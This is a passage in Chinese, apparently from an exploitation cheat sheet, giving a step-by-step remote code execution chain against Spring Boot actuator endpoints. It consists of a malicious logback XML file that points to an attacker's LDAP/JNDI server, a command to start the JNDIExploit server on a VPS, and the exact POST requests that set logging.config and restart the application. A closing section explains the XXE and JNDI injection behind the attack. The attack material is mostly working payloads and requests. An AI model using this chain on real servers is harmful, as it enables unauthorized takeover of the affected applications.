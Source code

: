 在根目录放置以 `xml` 结尾的 `example.xml` 文件，实际内容要根据步骤二中使用的 JNDI 服务来确定：

```php
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/TomcatBypass/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9y" as="appName" />
</configuration>
```

##### 步骤二：托管恶意 ldap 服务及代码

参考[文章](https://landgrey.me/blog/21/)，修改 [JNDIExploit](https://github.com/feihong-cs/JNDIExploit) 并启动（也可以使用其他方法）：

```php
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i your-vps-ip
```

##### 步骤三：设置 logging.config 属性

spring 1.x

```php
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.xml
```

spring 2.x

```php
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.xml"}
```

##### 步骤四：重启应用

spring 1.x

```php
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```php
POST /actuator/restart
Content-Type: application/json
```

#### 漏洞原理：

1. 目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址
2. restart 重启应用后，程序会请求 URL 地址获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞
